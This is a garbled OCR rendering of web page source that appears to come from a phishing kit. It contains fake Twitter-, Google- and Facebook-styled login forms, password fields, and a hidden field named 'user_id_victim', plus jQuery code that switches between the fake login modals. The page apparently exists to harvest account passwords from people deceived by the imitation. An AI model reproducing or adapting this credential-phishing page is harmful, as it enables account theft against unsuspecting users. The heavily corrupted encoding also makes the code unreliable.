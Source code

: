 0'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522input-'42ox-twitter'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cla'42el'053EPassword'053C/la'42el'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cinput'0520t'5@pe'053D'0522password'0522'0520name'053D'0522pass'0522'0520placeholder'053D'0522'0522'0520required'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cinput'0520t'5@pe'053D'0522hidden'0522'0520name'053D'0522login'0522'0520value'053D'0522Twitter'0522'0520readonl'5@'053E'050A'050'1@'050'1@'050'1@'050'1@'053Cinput'0520t'5@pe'053D'0522hidden'0522'0520name'053D'0522t'5@pe'0522'0520value'053D'0522ff'7Fgoogle'0522'0520readonl'5@'053E'050A'050'1@'050'1@'050'1@'050'1@'053Cinput'0520t'5@pe'053D'0522hidden'0522'0520name'053D'0522user'7Fid'7Fvictim'0522'0520value'053D'0522K0'1@SV'0522'0520/'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C'42utton'0520t'5@pe'053D'0522su'42mit'0522'0520class'053D'0522'42utton'0520'42lue'0522'053E'0520'0520Log'0520In'0520'0520'053C/'42utton'053E'053C'42r'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522footer-menu-twitter'0522'053EForgot'0520password'053F'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522footer-menu-twitter'0520'42ulet'0522'053E'05u2022'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522footer-menu-twitter'0522'053ESign'0520up'0520to'0520Google'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/form'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/center'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'053C/div'053E'050A'053C/div'053E'0520'0520'0520'050A'050A'0520'053Cscript'0520src'053D'0522https'053A//ajax'0Agoogleapis'0Acom/ajax/li'42s/jquer'5@/3'0A5'0A1/jquer'5@'0Amin'0Ajs'0522'053E'053C/script'053E'050A'053Cscript'0520src'053D'0522https'053A//code'0Ajquer'5@'0Acom/ui/1'0A11'0A3/jquer'5@-ui'0Ajs'0522'053E'053C/script'053E'050A'053Cscript'0520src'053D'0522https'053A//cdnjs'0Acloudflare'0Acom/ajax/li'42s/jquer'5@ui-touch-punch/0'0A2'0A3/jquer'5@'0Aui'0Atouch-punch'0Amin'0Ajs'0522'053E'053C/script'053E'050A'050A'050A'050A'053Cscript'0520t'5@pe'053D'0522text/javascript'0522'053E'050A'050A'0524'052'1Cdocument'052'1@'0Aread'5@'052'1Cfunction'052'1C'052'1@'0520'057B'050A'050'1@'0524'052'1C'0522'0523f'42Login'0522'052'1@'0Aon'052'1C'0527click'0527'052C'0520function'052'1C'052'1@'0520'057B'050A'050'1@'050'1@'0524'052'1C'0522'0523loginModal'0522'052'1@'0Ahide'052'1C'052'1@'053B'050A'050A'050'1@'050'1@'0524'052'1C'0522'0Aface'42ook'0522'052'1@'0AfadeIn'052'1C'0527slow'0527'052'1@'053B'050A'050A'050'1@'050'1@'0524'052'1C'0522'0Aclose-f'42'0522'052'1@'0Aon'052'1C'0527click'0527'052C'0520function'052'1C'052'1@'0520'057B'050A'050'1@'050'1@'050'1@'0524'052'1C'0522'0Aface'42ook'0522'052'1@'0Ahide'052'1C'052'1@'053B'050A'050A'050'1@'050'1@'050'1@'0524'052'1C'0522'0523loginModal'0522'052'1@'0Ashow'052'1C'052'1@'053B'050A'050'1@'050'1@'057D'052'1@'053B'050A'050'1@'057D'052'1@'053B'050A'050A'050'1@'0524'052'1C'0522'0523twitLogin'0522'052'1@'0Aon'052'1C'0527click'0527'052C'0520function'052'1C'052'1@'0520'057B'050A'050A'050'1@'050'1@'0524'052'1C'0522'0Atwitter'0522'052'1@'0AfadeIn'052'1C'0527slow'0527'052'1@'053B'050A'050A'050'1@'050'1@'0524'052'1C'0522'0Aclose-other'0522'052'1@'0Aon'052'1C'0527click'0527'052C'0520function'052'1C'052'1@'0520'057B'050A'050'1@'050'1@'050'1@'0524'052'1C'0522'0Atwitter'0522'052'1@'0Ahide'052'1C'052'1@'053B'050A'050A'050'1@'050'1@'050'1@'0524'052'1C'0522'0523loginModal'0522'052'1@'0Ashow'052'1C'052'1@'053B'050A'050'1@'050'1@'057D'052'1@'053B'050A'050'1@'057D'052'1@'053B'050A'057D'052'1@'053B'050A'050A'053C/script'053E'0520'0520'0520'050A'050'1@'050'1@'0520'050A'050'1@'053Cscript'053E'050A'050'1@'0520'0520var'0520coverCreateTeamloadFile'0520'053D'0520function'052'1Cevent'052'1@'0520'057B'050A'050'1@'0520'0520'0520'0520var'0520output'0520'053D'0520document'0AgetElementB'5@Id'052'1C'0527cover'7Fcreate'7Fteam'7Fpreview'0527'052'1@'053B'050A'050'1@'0520'0520'0520'0520output'0Asrc'0520'053D'0520URL'0AcreateO'42jectURL'052'1Cevent'0Atarget'0Afiles'055B0'055D'052'1@'053B'050A'050'1@'0520'0520'057D'053B'050A'050A'050'1@'0520'0520var'0520avatarCreateTeamloadFile'0520'053D'0520function'052'1Cevent'052'1@'0520'057B'050A'050'1@'0520'0520'0520'0520var'0520output'0520'053D'0520document'0AgetElementB'5@Id'052'1C'0527avatar'7Fcreate'7Fteam'7Fpreview'0527'052'1@'053B'050A'050'1@'0520'0520'0520'0520output'0Asrc'0520'053D'0520URL'0AcreateO'42jectURL'052'1Cevent'0Atarget'0Afiles'055B0'055D'052'1@'053B'050A'050'1@'0520'0520'057D'053B'050A'050'1@'053C/script'053E'050A'053Cscript'053E'050A'050'1@'050'1@'0524'052'1Cfunction'052'1C'052'1@'0520'057B'050A'050'1@'050'1@'050'1@'0524'052'1C'0527'0Aselect-game'0527'052'1@'0Aselectize'052'1C'057B'050A'050'1@'050'1@'050'1@'050'1@maxItems'053A'05203'050A'050'1@'050'1@'050'1@'057D'052'1@'053B'050A'050'1@'050'1@'057D'052'1@'050A'050A'050'1@'053C/script'053E'050'1@'050'1@'0520'050A'050'1@'050'1@'0520'050A'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'050A'050A'050A'053Cscript'0520t'5@pe'053D'0522text/javascript'0522'053E'050A'050'1@'050'1@'050'1@'0524'052'1C'0527'055Bdata-toggle'053D'0522popover'0522'055D'0527'052'1@'0Apopover'052'1C'052'1@'053B'050A'050'1@'050'1@'050'1@'0524'052'1C'0527'0Aalert'0527'052'1@'0Aread'5@'05